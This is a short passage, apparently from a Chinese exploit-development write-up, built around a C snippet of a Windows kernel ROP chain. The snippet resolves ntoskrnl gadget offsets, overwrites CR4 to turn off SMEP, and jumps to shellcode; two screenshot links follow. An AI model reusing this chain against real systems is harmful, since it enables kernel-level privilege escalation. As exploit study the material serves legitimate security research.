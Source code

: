 重写修改下 EXP

```bash
unsigned long long base = ulGetKernelBase((PCHAR)"ntoskrnl.exe");
    unsigned long long pop_rcx = base+ 0x20C64C;
    unsigned long long mov_cr4_rcx = base+ 0x39eb47;

    printf("[*] Start set ROP\n");
    *(unsigned long long*)(stackspace + 0x818) = (unsigned long long)pop_rcx;
    //set RCX = currentRC4
    *(unsigned long long*)(stackspace + 0x820) = (unsigned long long)0x00000000002506f8;
    *(unsigned long long*)(stackspace + 0x828) = (unsigned long long)mov_cr4_rcx;
    *(unsigned long long*)(stackspace + 0x830) = (unsigned long long)shellcode_addr;
```

[![](assets/1706090578-5a1f3d5afda85a183b6798190267f8da.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122131951-dea23cd6-b8e5-1.png)

[![](assets/1706090578-d74d9f58be2477d929ac520b190ab162.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240122132108-0c80a386-b8e6-1.png)
